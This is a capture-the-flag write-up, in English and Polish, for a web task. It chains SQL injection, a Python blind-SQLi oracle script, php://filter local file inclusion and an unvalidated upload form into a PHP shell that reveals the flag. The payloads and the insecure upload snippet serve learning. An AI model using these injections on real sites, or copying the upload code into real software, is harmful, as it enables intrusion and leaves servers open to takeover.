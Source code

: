 # V1rus3pidem1c (web 100)

## ENG
[PL](#pl-version)

In the task we get a webpage where we can select a country from dropdown and for some countries this shows us file upload form and for some of them it doesn't.
For example there is a form for `Germany` and no form for `Russia`.

The country name is passed as GET parameter in the query, and we decide to see what exactly is done with it.
A little bit of fuzzing tells us that it goes into some SQL query into where condition.

With classic `country=Russia' or '1'='1` we get a form for Germany, which means we managed to exploit the task with SQL Injection.

We tried a bit to get some echo here, but couldn't, so we simply switched to run Blind SQLi attack.
We got a simple oracle function:

```
import requests
session = requests.session()

def is_true(condition):
    url = "http://tasks.ctf.com.ua:13372/index.php?country=Russia' or (%s) -- a" % condition
    result = session.get(url)
    return 'virus for Germany' in result.text


def main():
    print(is_true("1=1"))
    print(is_true("1=0"))


main()
```

And with this we can extract `Information_Schema.Tables` and `Information_Schema.Columns` data, with simple substring and byte-by-byte comparison using the oracle function.

This tells us there we have only a single user defined table and it contains only `countryID, countryName, scriptPath`.
Last parameter is especially interesting since it's an actual path to php script with form, which gets included on the page.
It's in form: `country/ge.php`, `country/tu.php` etc.

We could use our SQLi to include some other file by `index.php?country=' union select 'somefile.php' -- comment`, but we can't put any file on the server.
But since we control the include path we decided to check good old php wrappers and force the server to include: `php://filter/read=convert.base64-encode/resource=country/ge.php` and as expected we get a nice base64 contents of the php script.

It seems that the files uploaded by the form available for some countries actually get uploaded to the server!
We have there for example:

```php
<?php

	$target_dir = "uploads/";
	$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
	move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file);
	
	/*echo $_FILES["fileToUpload"]["tmp_name"] ."\n";
	var_dump($_FILES["fileToUpload"]);
	var_dump(file_exists($_FILES["fileToUpload"]["tmp_name"]));
	echo file_exists($target_file);*/
?>
```

So it's clear that we can use this form to upload a php shell to the server and then use SQLi to include it on the page and execute, because we know the file will be under `uploads/file_name`.

We proceed with this and find a hidden php file with flag: `h4ck1t{$QL&LFI=FR13ND$}`

## PL version

W zadaniu dostajemy link do strony internetowej gdzie możemy wybrać z listy jeden z krajów i dla niektórych pojawia się formularz uploadu plików a dla innych nie.

Na przykład dla `Germany` mamy formularz a dla `Russia` nie.

Nazwa kraju jest przesyłana jako parametr GET i spróbowaliśmy przetestować co się może dziać z tym parametrem.
Troche fuzzowania pokazało że parametr idzie bezpośrednio do query SQL do warunku where.

Klasycznym `country=Russia' or '1'='1` dostaliśmy formular dla Niemiec, co znaczy że mamy tam SQL Injection.

Próbowalismy dostać tam gdzieś echo, ale bez skutku, więc postanowiliśmy użyć Blind SQLi.
Przygotowalismy prostą funkcje:

```
import requests
session = requests.session()

def is_true(condition):
    url = "http://tasks.ctf.com.ua:13372/index.php?country=Russia' or (%s) -- a" % condition
    result = session.get(url)
    return 'virus for Germany' in result.text


def main():
    print(is_true("1=1"))
    print(is_true("1=0"))


main()
```

I możemy dzięki temu pobrać z `Information_Schema.Tables` i `Information_Schema.Columns` dane poprzez proste substring oraz porównywanie wartości bajt po bajcie za pomocą funkcji oracle.

Stąd wiemy, że jest tylko jedna tabela użytkownika i zawiera `countryID, countryName, scriptPath`.

Ostatni parametr jest szczególnie ciekawy bo zawiera ścieżkę do plików php, które są includowane na stronie.

Mają postać: `country/ge.php`, `country/tu.php` etc.

Moglibyśmy użyć naszego SQLi żeby includować jakiś inny plik przez `index.php?country=' union select 'somefile.php' -- comment` ale nie możemy póki co umieścić niczego na serwerze.

Niemniej skoro kontrolujemy ścieżkę do include to może stare dobre wrappery php zadziałają i czy serwer pozwoli includować: `php://filter/read=convert.base64-encode/resource=country/ge.php` i tak jak na to liczylismy, dostaliśmy ładne base64 z kodu skryptu.

Analiza kodu pozwala stwierdzić, że możemy uploadować pliki na serwer za pomocą skryptów dla niektórych krajów!
Mamy tam:

```php
<?php

	$target_dir = "uploads/";
	$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
	move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file);
	
	/*echo $_FILES["fileToUpload"]["tmp_name"] ."\n";
	var_dump($_FILES["fileToUpload"]);
	var_dump(file_exists($_FILES["fileToUpload"]["tmp_name"]));
	echo file_exists($target_file);*/
?>
```

Widać wyraźnie, że mozemy spokojnie wrzucić za pomocą formularza shell php na serwer i użyć SQLi żeby go includować i użyć, bo wiemy że jest dostępny pod `uploads/file_name`.

Umieszczamy więc nasz shell i odnajdujemy ukryty plik php z flagą: `h4ck1t{$QL&LFI=FR13ND$}`
